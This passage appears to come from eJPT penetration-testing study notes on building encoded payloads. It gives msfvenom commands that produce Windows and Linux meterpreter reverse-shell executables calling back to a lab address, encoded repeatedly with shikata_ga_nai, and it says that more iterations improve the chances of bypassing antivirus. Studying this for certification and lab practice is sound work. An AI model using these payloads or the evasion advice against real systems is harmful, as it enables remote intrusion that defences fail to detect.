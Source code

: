 - Excellent encoders are **`cmd/powershell_base64`** and **`x86/shikata_ga_nai`**

#### Windows Payload

- Generate a Win x86 payload and encode it with `shikata_ga_nai`:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.31.128 LPORT=1234 -e x86/shikata_ga_nai -f exe > /home/kali/certs/ejpt/Windows_Payloads/encodedx86.exe
```

![msfvenom shikata_ga_nai Win](.gitbook/assets/image-20230415213830109.png)

- The payload can be encoded as often as desired by increasing the number of iterations.
- The more iterations, the better chances to bypass an Antivirus. Use **`-i`** option.

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.31.128 LPORT=1234 -i 10 -e x86/shikata_ga_nai -f exe > /home/kali/certs/ejpt/Windows_Payloads/encodedx86.exe
```

![](.gitbook/assets/image-20230415213941131.png)

#### Linux Payload

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.31.128 LPORT=1234 -i 10 -e x86/shikata_ga_nai -f elf > /home/kali/certs/ejpt/Linux_Payloads/encodedx86    
```

![msfvenom shikata_ga_nai Linux](.gitbook/assets/image-20230415213215234.png)
